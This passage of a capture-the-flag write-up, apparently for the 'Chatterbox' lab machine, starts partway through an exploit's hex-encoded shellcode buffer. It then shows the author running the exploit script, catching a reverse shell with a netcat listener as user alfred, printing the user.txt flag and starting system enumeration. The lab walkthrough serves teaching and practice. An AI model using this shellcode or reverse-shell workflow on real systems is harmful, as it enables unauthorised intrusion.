 buf += "\x37\x33\x38\x35\x49\x56\x45\x31\x64\x73\x31\x79\x6f"
buf += "\x5a\x35\x33\x55\x49\x30\x74\x34\x5a\x6c\x49\x6f\x50"
buf += "\x4e\x59\x78\x71\x65\x68\x6c\x50\x68\x38\x70\x36\x55"
buf += "\x34\x62\x72\x36\x69\x6f\x6a\x35\x73\x38\x43\x33\x42"
buf += "\x4d\x6f\x74\x69\x70\x44\x49\x67\x73\x72\x37\x31\x47"
buf += "\x61\x47\x50\x31\x58\x76\x50\x6a\x4a\x72\x71\x49\x30"
buf += "\x56\x59\x52\x49\x6d\x70\x66\x48\x47\x51\x34\x6f\x34"
buf += "\x4f\x4c\x79\x71\x39\x71\x42\x6d\x6f\x54\x6e\x44\x6c"
buf += "\x50\x45\x76\x69\x70\x6e\x64\x31\x44\x42\x30\x4e\x76"
buf += "\x30\x56\x50\x56\x50\x46\x70\x56\x30\x4e\x52\x36\x72"
buf += "\x36\x6f\x63\x51\x46\x62\x48\x32\x59\x76\x6c\x6f\x4f"
buf += "\x34\x46\x69\x6f\x76\x75\x75\x39\x57\x70\x6e\x6e\x50"
buf += "\x56\x6f\x56\x6b\x4f\x30\x30\x52\x48\x6d\x38\x44\x47"
buf += "\x4b\x6d\x71\x50\x59\x6f\x77\x65\x75\x6b\x6c\x30\x78"
buf += "\x35\x44\x62\x71\x46\x71\x58\x46\x46\x66\x35\x65\x6d"
buf += "\x45\x4d\x49\x6f\x48\x55\x4d\x6c\x6b\x56\x31\x6c\x6c"
buf += "\x4a\x71\x70\x49\x6b\x79\x50\x50\x75\x79\x75\x37\x4b"
buf += "\x51\x37\x6c\x53\x61\x62\x30\x6f\x52\x4a\x6b\x50\x52"
buf += "\x33\x4b\x4f\x68\x55\x41\x41"</pre>
I started a netcat listener on 1234 but nothing was connecting. For a long time I couldn't figure out why. Then I scrolled back up to the command I used to create the code and realized i added an extra digit on the port. D'oh!
So I restarted the listener using the correct port and got a connection back when I ran the code.
<pre>[<span style="color: #8ae234;"><b>root</b></span>:<span style="color: #cc0000;">~/Desktop/chatterbox</span>]# python 36025.py                                                                                                                                                      (<span style="color: #fce94f;"><b>master</b></span><span style="color: #ef2929;"><b>✱</b></span>) 
----&gt;{P00F}!
</pre>
<pre>[<span style="color: #8ae234;"><b>root</b></span>:<span style="color: #cc0000;">~/Desktop/chatterbox</span>]# nc -lvnp 12343                                                                                                                                                       (<span style="color: #fce94f;"><b>master</b></span><span style="color: #ef2929;"><b>✱</b></span>) 
listening on [any] 12343 ...
connect to [10.10.14.234] from (UNKNOWN) [10.10.10.74] 49160
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32&gt;whoami
whoami
chatterbox\alfred

C:\Windows\system32&gt;
</pre>
I captured user.txt flag
<pre>C:\Users\Alfred\Desktop&gt;type user.txt 
type user.txt 
72290246dfaedb1e3e3ac9d6fb306334</pre>
Next stop to see what info i can find out about the system
<pre>C:\Users\Administrator\Desktop&gt;systeminfo 
systeminfo 
